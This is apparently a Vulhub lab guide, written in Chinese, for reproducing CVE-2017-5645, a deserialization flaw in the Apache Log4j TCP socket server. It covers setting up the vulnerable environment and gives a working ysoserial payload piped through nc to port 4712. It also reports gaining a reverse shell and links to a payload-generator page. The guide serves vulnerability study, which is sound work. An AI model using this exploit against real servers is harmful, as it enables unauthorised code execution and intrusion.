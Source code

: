 # Apache Log4j Server 反序列化命令执行漏洞（CVE-2017-5645）

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 漏洞环境

执行如下命令启动漏洞环境

```
docker compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：

![](1.png)

执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

![](2.png)

